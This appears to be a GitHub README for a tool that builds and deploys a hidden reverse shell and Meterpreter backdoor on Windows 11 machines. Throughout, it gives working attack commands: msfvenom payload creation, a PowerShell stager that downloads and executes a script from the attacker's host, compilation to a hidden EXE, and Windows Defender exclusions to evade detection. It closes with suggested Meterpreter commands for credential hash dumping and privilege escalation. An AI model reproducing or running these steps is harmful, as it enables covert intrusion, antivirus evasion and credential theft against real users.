 ### Get-ReverseShell README

This repository provides a tool to facilitate the creation and deployment of a sneaky reverse shell on Windows 11 targets, enhancing your penetration testing capabilities. This tool allows you to establish a connection between your Kali Linux machine and the target system, providing a powerful means for further exploration.

## Prerequisites

Before using this tool, ensure that you have the following:

1. **Kali Linux:** Make sure you have Kali Linux installed, along with `msfconsole`, `msfvenom` and any web-server.
2. **Windows 11:** You need a Windows 11 machine to create an executable file from PowerShell scripts (EXE). Wine may be an option, but it's not officially supported.
3. **Target Windows 11:** The machine you intend to target.

## Configuration Variables

These variables can be adjusted according to your environment. Use Ctrl + F to locate and modify them easily.

```variables
$lhost = "192.168.0.2"                        # IP address of your Kali host
$lport = 4444                                 # Listening port on your Kali
$lport_sneaky = 5555                          # Sneaky listening port on your Kali
$lwebpath = "/var/www/html/"                  # Path to the open website on your Kali
$lwinpath = "C:\Users\w\"                     # Working path on the Windows 11 target
$lpath = "/home/k/Desktop/"                   # Path to a local directory on your Kali
$rpath = "C:\Users\w\Desktop\"                # Working path on the attacking host
$exe_name = "reverse_shell.exe"               # Name of your attacking sneaky reverse shell executable file
$sneaky_exename = "sneaky_reverse_shell.exe"  # Name of your attacking sneaky reverse shell sneaky executable file
$sneaky_psname = "sneaky_reverse_shell.ps1"   # Name of your sneaky reverse shell sneaky PowerShell file
```

## Usage

# Kali Linux
1. Press `Ctrl + Alt + t` for open a first Kali Linux terminal and execute `sudo su` and this following commands:

```bash
cd $lpath
git clone https://github.com/gh0x0st/Get-ReverseShell
cd ./Get-ReverseShell
```
2. Write `pwsh` for open a PowerShell terminal and execute the following commands for create sneaky reverse shell script:
```pwsh
Import-Module ./get-reverseshell.ps1
get-reverseshell -Ip $lhost -Port $lport_sneaky
```

3. Write your sneaky reverse shell script in the file `$lpath$sneaky_psname` after line ">> https://github.com/gh0x0st".

4. To use Meterpreter for enhanced functionality: Write `exit` and continue in first Kali Linux terminal with the following commands:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp --format exe -o $lpath$exe_name lhost=$lhost lport=$lport
```
 - This commands creates EXE file for running meterpreter backdoor in the target:

5. Copy $exe_name and $sneaky_psname to web-server of your Kali Linux
```bash
cp $lpath$exe_name $lwebpath
cp $sneaky_psname $lwebpath
```

6. Start listening on the hidden reverse shell port
```bash
nc -nvlp 5555
```

## Meterpreter Reverse Shell
1. Open a new Kali terminal 2 for msfconsole and execute `sudo su` then `msfconsole` the following commands:
```msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost $lhost
set lport $lport
exploit
```


# Windows 11
1. Open a Windows 11 PowerShell with administrator privileges and run the following commands:

```powershell
Set-ExecutionPolicy Bypass
Install-PackageProvider -Name NuGet -MinimumVersion 2.8.5.201 -Force -Confirm:$false -ErrorAction SilentlyContinue
Install-Module -Name ps2exe -Force -Confirm:$false -ErrorAction SilentlyContinue
@"
# PowerShell script for downloading and executing the sneaky reverse shell
`$scriptUrl = "http://$lhost/$sneaky_psname"
`$scriptBytes = Invoke-WebRequest -Uri `$scriptUrl -UseBasicParsing -Method Get -MaximumRedirection 0
`$scriptContent = [System.Text.Encoding]::UTF8.GetString(`$scriptBytes.Content)
Invoke-Expression -Command `$scriptContent
"@ | Out-File -FilePath "$lwinpath$sneaky_psname" -Encoding UTF8
Invoke-ps2exe $lwinpath$sneaky_psname $lwinpath$sneaky_exename -noconsole -noerror -nooutput -sta -x64
```

2. Send and execute the sneaky backdoor on the target machine with administrator privileges.

# Return to the Kali Linux

7. Return to the Kali terminal 1 and check for a successful connection. You should see somesthing like that:

```bash
┌──(root㉿kali)-[/home/k/Desktop]
└─# nc -nvlp 5555
listening on [any] 5555 ...
connect to [192.168.0.2] from (UNKNOWN) [192.168.0.20] 62074
                                                                                                                                                                                                                                            
PS C:\Users\w\Desktop>
```

8. If successful, you can proceed with further commands in the sneaky reverse shell for allow Meterpreter Reverse Shell and expand backdoor.
```powershell
Set-ExecutionPolicy Bypass
Add-MpPreference -ExclusionProcess "cmd.exe"
Add-MpPreference -ExclusionProcess "powershell.exe"
Add-MpPreference -ThreatIDDefaultAction_Ids @(2147735445) -ThreatIDDefaultAction_Actions @('Allow')
Add-MpPreference -ThreatIDDefaultAction_Ids @(2147848028) -ThreatIDDefaultAction_Actions @('Allow')
Add-MpPreference -ExclusionExtension @("exe", "dll", "ps1", "vbs")
Add-MpPreference -ExclusionPath '$rpath$sneaky_exename'
Add-MpPreference -ExclusionProcess "$sneaky_exename"
Add-MpPreference -ExclusionPath '$rpath$exe_name'
Add-MpPreference -ExclusionProcess "$exe_name"
```


9. Checkout Windows Defender rules via this command
```powershell
Get-MpPreference
```
 - **Note:** If after entering the above commands you do not see any newly added rules in Windows Defender, repeat the procedure until they appear. If after some time there are still no changes, then check the launch of the hidden reverse shell with administrator privileges

10. Download $exe_name to target for meterpreter reverse shell
```powershell
Invoke-WebRequest -Uri "http://$lhost/$exe_name" -OutFile "$rpath$exe_name"
```

11. Execute $exe_name in target via  `$rpath$exe_name` or if you stay in work directory `.\$exe_name`

12. If successful, you will see a Meterpreter session opened in the Kali terminal 2 like that.
```msfconsole
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.0.2:4444 
[*] Sending stage (201798 bytes) to 192.168.0.13
[*] Meterpreter session 2 opened (192.168.0.2:4444 -> 192.168.0.13:49687) at 2024-03-10 16:16:16 +0200

meterpreter > 
```
 - Congratulations, you have a full reverse shell on your target.

## Example Commands Meterpreter

Here are some example commands you can use in the Meterpreter shell:

- `getuid`: Get the user ID of the current user.
- `getsystem`: Attempt to gain system privileges.
- `hashdump`: Retrieve hashes of all users on the target.
- `background`: Move the current session to the background.
- `help`: Display a list of available commands and their descriptions.

## Example stay in target system after rebooting



Feel free to explore and experiment with additional Meterpreter commands for a comprehensive assessment. Happy hacking!
